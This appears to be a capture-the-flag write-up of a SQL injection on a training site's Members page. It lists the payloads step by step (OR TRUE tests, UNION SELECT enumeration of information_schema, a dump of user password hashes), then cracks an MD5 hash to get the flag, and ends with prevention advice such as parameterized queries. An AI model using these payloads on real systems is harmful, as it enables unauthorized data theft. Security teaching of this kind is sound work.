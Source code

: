 # SQL Injection: Members Page Vulnerability

## Overview

A SQL Injection vulnerability found on the Members page allows attackers to exploit weak input validation and extract sensitive data.

---

## Discovery & Exploitation

### 1. Confirm the Vulnerability
- i.e. input in search: `1' OR TRUE`
- Result: With single quote did not work. After trying different SQL Payloads

- Input in search: `1 OR TRUE`
- Result: Returns all members, confirming SQL injection.

### 2. Extract DB and Table Info
- Query: `-1 union select database(), user()`
- Result: Reveals DB name and user.

- Query: `-1 UNION SELECT 1,table_name FROM information_schema.tables `
- Result: Reveals all Table names

### 3. Enumerate Structure
- Query: `-1 UNION SELECT table_name, column_name FROM information_schema.columns`
- Result: Lists table/column names (e.g., `users`, `user_id`, `first_name`, `Commentaire`, `countersign`, etc.)

### 4. Dump User Data
- Query: `-1 UNION SELECT concat(Commentaire, countersign), concat(user_id,first_name,last_name, country,town,planet) FROM users --`
- Result: Exposes sensitive data, including password hashes and hints.

### 5. Crack the Flag
- Extract hash: `5ff9d0165b4f92b14994e5c685cdce28`
- MD5 decrypt: `FortyTwo` (use [dcode.fr](https://www.dcode.fr/md5-hash) or [crackstation.net](https://crackstation.net) to decode MD5)
- Lowercase: `fortytwo`
- Get SHA-256:
    ```bash
    echo -n 'fortytwo' | sha256sum
    ```
- Flag: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

---

## Prevention

1. **Parameterized Queries**
    ```php
    $stmt = $db->prepare("SELECT * FROM users WHERE id = ?");
    $stmt->bind_param("i", $user_id);
    ```
2. **Input Validation**
    ```php
    if (!is_numeric($user_id)) { exit("Invalid input"); }
    ```
3. **Database Security**
    - Use least-privilege DB accounts
    - Hide error messages
    - Monitor activity

4. **Web Application Firewall**
    - Deploy a WAF to block common attacks

5. **Regular Security Testing**
    - Run frequent scans and penetration tests

---

> Weak input validation can lead to full data exposure. Always use secure coding practices to protect your applications.